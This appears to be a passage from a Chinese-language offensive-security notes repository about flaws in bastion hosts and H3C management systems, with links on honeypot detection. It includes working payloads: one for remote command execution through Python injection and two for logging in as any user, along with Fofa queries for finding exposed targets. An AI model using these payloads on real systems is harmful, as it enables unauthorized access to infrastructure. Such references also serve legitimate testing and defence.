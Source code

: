 - **CNVD-2019-20835 齐治堡垒机前台远程命令执行漏洞**
    - [齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）分析](https://www.cnblogs.com/StudyCat/p/11256944.html)

- **CNVD-2019-17294 齐治堡垒机后台存在命令执行漏洞**
    - [齐治堡垒机后台存在命令执行漏洞（CNVD-2019-17294）分析](https://www.cnblogs.com/StudyCat/p/11197986.html)

- **远程代码执行**
    - POC | Payload | exp
        ```
        POST /shterm/listener/tui_update.php

        a=["t';import os;os.popen('whoami')#"]
        ```

- **任意用户登录漏洞**
    - POC | Payload | exp
        ```
        /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
        ```

**H3C SecParh**

> Fofa: app="H3C-SecPath-运维审计系统" && body="2018"

- **get_detail_view.php 任意用户登录漏洞**
    - POC | Payload | exp
        ```
        /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
        ```

**思福迪堡垒机**

> fofa: app="Logbase运维安全管理系统"

- **任意用户登录漏洞**
    - POC | Payload | exp
        - https://www.yuque.com/peiqiwiki/peiqi-poc-wiki/dbba8m

## IMC

**H3C IMC智能管理中心**
- **远程代码执行**
    - [H3C IMC智能管理中心漏洞复现](https://mp.weixin.qq.com/s/Dqk1WB5ABoM5jOgq_vlnPw)

---

# 网络检测与响应

## 蜜罐

**相关文章**
- [【格物实验室】浅谈物联网蜜罐识别方法](http://blog.nsfocus.net/iot-honeypot-1111/)
- [红队遇蜜罐 莫慌](https://mp.weixin.qq.com/s/YBge1xjpjQjQ-NoK4kK6RQ)
- [浅谈Mysql蜜罐识别](https://mp.weixin.qq.com/s/f30RvhYlB97dXnjzv4_H_Q)
- [浅析开源蜜罐识别与全网测绘](https://mp.weixin.qq.com/s/ll-vIoPhBMxYVTKm3UJ8lQ)
- [蜜罐建设的一些思考](https://mp.weixin.qq.com/s/_hpJP6bTuoH-3cQtDawGOw)
